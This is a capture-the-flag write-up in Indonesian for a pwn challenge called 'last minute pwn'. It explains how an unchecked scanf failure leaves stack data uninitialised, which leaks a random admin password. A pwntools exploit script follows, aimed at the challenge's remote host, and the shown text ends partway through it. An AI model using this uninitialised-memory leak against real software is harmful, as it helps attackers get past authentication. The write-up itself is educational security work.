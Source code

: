 # last minute pwn - PWN

chall simple yang membutuhkan kita untuk meleak random value yang di generate /dev/urandom dan memasukkannya sebagai password untuk mendapatkan flag, untuk meleak yang perlu dilakukan adalah memanfaatkan scanf error yang tidak diantisipasi program, di menu 1  (game) kita diminta untuk memverifikasi untuk bermain atau tidak dengan menginput y / n namun jika kita input angka program akan tetap berjalan tanpa menginisiasi variable stack yang akan digunakan sebagai soal, setahu saya bug ini dinamakan UDA (unitialized data), dengan begitu kita bisa melihat isi stack program kita, di fungsi login password yang seharusnya terletak di segment bss di copy ke stack oleh karena itu kita dapat mengetahui random value yang sudah tergenerate, namun alamat stack password berada lebih rendah daripada stack frame dari game, sehingga kita perlu start game 2x (start again) agar stack frame kita lebih rendah daripada alamat stack password, dengan memanfaatkan bug tadi password tidak akan teroverwrite oleh soal karena tidak terinisialisasi (gagal), dengan itu kita dapat leak password.

```python
#!/usr/bin/env python3

from pwn import *

exe = 'last_minute_pwn'
elf = context.binary = ELF(exe, checksec=False)
libc = ELF('/usr/lib/libc.so.6', checksec=False)
context.log_level = 'debug'

cmd = '''
b * authenticate_admin+157
c
'''

if args.REMOTE:
    p = remote('last_minute_pwn.pwn.umasscybersec.org', 7293)
else:
    p = process()

### EXPLOIT HERE ###

def calculate():
    p.recvuntil(f': '.encode())
    a = int(p.recvuntil(b'+').split(b'+')[0].strip())
    b = int(p.recvuntil(b'=').split(b'=')[0].strip())
    return a + b 

def win_round():
    p.sendline(b'1')
    p.sendline('y')
    for i in range(20):
        p.sendline(b'1')
        result = calculate()
        p.sendline(f'{result}'.encode())

# gdb.attach(p, cmd)

# leak
p.sendline(b'2')
p.sendline(b'\x00'+b'apasi') # rubish

p.sendline(b'1')
p.sendline(b'a') # scanf fail
p.sendline(b'3')
p.sendline(b'a') # scanf fail
p.sendline(b'2') # print leak

p.recvuntil(b'2. ')
```